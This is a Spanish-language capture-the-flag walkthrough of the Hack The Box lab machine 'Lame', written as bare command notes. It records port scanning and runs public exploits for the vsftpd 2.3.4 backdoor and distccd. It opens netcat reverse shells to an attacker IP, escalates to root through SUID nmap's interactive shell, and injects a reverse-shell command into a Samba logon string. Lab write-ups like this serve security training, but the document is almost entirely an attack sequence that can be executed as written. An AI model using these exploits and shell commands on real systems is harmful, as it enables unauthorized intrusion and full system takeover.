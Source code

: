 # Lame

IP: 10.10.10.3

## Escaneo

❯ ping -c 1 10.10.10.3
PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=63 time=41.0 ms

--- 10.10.10.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 41.042/41.042/41.042/0.000 ms

nmap -p- --open -T5 -v -n 10.10.10.3 -oN allPorts
sudo nmap -p- -sS --min-rate 5000 -vvv --open -Pn -T5 10.10.10.3 -oN allPorts

### Escaneo de puertos
sudo nmap -sC -sV -p21,22,139,445,3632 10.10.10.3 -oN targetedPorts

ftp 10.10.10.3 --> anonymous
ls -lha

cat targetedPorts | grep -oP '\d{1,5}/tcp.*' 
searchsploit vsftpd 2.3.4
buscamos en google --> vsftpd 2.3.4 exploit github

## Exploit ftp
telnet 10.10.10.3 21
USER yintao:)
PASS hola123

sudo nmap -p6200 --open -T5 -v -n 10.10.10.3

Descargamos el exploit
cd exploits
wget https://raw.githubusercontent.com/ahervias77/vsftpd-2.3.4-exploit/master/vsftpd_234_exploit.py
python3 vsftpd_234_exploit.py
python3 vsftpd_234_exploit.py 10.10.10.3 21 whoami

cat targetedPorts | grep -oP '\d{1,5}/tcp.*'
searchsploit distccd
distccd exploit github
wget exploit
python distccd_rce_CVE.py -t 10.10.10.3 -p 3632 -c whoami

## Reverse Shell
nc -nlvp 443

python distccd_rce_CVE.py -t 10.10.10.3 -p 3632 -c 'nohup nc -e /bin/bash 10.10.14.23 443 &'

whoami
script /dev/null -c bash
ctrl+z
export TERM=xterm
export SHELL=bash
ctrl+l
stty -a
stty rows 44 columns 187
nano
cd /home 
find \-name user.txt 2>/dev/null
find \-name user.txt 2>/dev/null | xargs head -c 18; echo

## Escala de privilegios
uname -a
id
sudo -l 
find \-perm -4000 2>/dev/null
which nmap
nmap --interactive
!sh
whoami
cd /root
ls

## Explotacion por Samba
cd nmap
cat targetedPorts | grep -oP '\d{1,5}/tcp.*'
searchsploit samba 3. command execution
searchsploit -x exploits/unix/remote/16320.rb --> x: examinar
smbclient 10.10.10.3 -N --> comprobar recursos compartidos
smbmap -H 10.10.10.3
smbclient //10.10.10.3/tmp -N
dir
smbclient //10.10.10.3/tmp --option='client min protocol=NT1' -N
dir
nc -nlvp 443
smbclient //10.10.10.3/tmp -N
smb: \> logon="/='nohup nc -e /bin/bash 10.10.14.23 443'"
whoami
pwd
script /dev/null -c bash
ctrl+z
ssty raw -echo
export TERM=xterm
export SHELL=bash



